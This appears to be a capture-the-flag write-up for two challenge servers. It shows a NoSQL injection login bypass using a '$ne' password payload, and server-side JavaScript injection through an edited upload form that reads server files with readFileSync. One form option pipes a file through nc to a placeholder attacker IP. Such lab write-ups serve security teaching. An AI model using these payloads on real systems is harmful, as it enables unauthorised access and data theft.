 ##### SG-03 ([gnome.conf](SG03_gnome.conf))

The credentials "admin:SittingOnAShelf" does not work for SG-03. Make use of the NoSQL injection vulnerability to bypass authentication<

- Intercept the request using a proxy (I used Burpsuite)
- Change the "Content-Type" header to "application/json"
- Change the content to the following{ "username": "admin", "password": {"$ne": ""} }
![q08_03_01](img/q08_03_01.png)

This is similar to executing the MySQL query with "username == 'admin' AND password != ''". This will log you in as admin and the gnome.conf file can be downloaded directly

##### SG-04 ([gnome.conf](SG04_gnome.conf))

There is now a Files Upload form in the "Files" section. Make use of the SSJS vulnerability.

I used the "readFileSync" method to obtain the gnome.conf file. I copied the HTML code of the upload form and modified it as follow. This makes the editing the explotation much easier without the need to setup a proxy.

```html
<h2>Upload New File</h2>
<form action="http://52.192.152.132/files" method="post" role="form" enctype="multipart/form-data">
  <h4>Post-process:</h4>
  <select required name="postproc">
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/gnome.conf'))">gnome.conf</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/sgnet.zip'))">sgnet.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/20151203133815.zip'))">20151203133815.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/factory_cam_4.zip'))">factory_cam_4.zip</option>
    <option value="res.send(require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT'))">factory_cam_4</option>
  </select>
  <h4>Choose a file:</h4>
  <input required name="file" type="file">
  <button type="submit">Upload</button>
</form>
```
